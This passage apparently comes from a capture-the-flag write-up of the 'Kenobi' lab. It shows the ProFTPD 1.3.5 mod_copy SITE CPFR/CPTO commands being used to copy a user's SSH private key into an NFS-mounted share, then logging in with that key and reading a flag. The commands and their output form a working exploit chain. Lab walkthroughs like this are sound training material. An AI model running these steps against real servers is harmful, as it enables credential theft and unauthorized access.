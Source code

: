 ```js
telnet 10.10.194.61 21

```

>**now we will copy the ssh id_rsa from /home/kenobi/.ssh/id_rsa to /var/tmp/**

```js
telnet 10.10.194.61 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.194.61]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
go to folder /mnt

>**sudo mount -t nfs 10.10.23.89:/var /mnt**

```js

💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt cd tmp
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp ls
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-b168a848f5f4485c97aa4dedc11c7c6e-systemd-timesyncd.service-iAn4C5
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp chmod 600 id_rsa id_rsa id_rsa  
chmod: changing permissions of 'id_rsa': Read-only file system


```
>**Use id_rsa to connect to ssh**

```js
💻 T4T4R1S 🌐 | Local IP ➜ 192.168.1.3 | 🥷 VPN IP ➜ 10.11.139.85
👀  ➜ /mnt/tmp sudo ssh -i id_rsa kenobi@10.10.23.89
Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

-----


# Time for some privilege escalation 
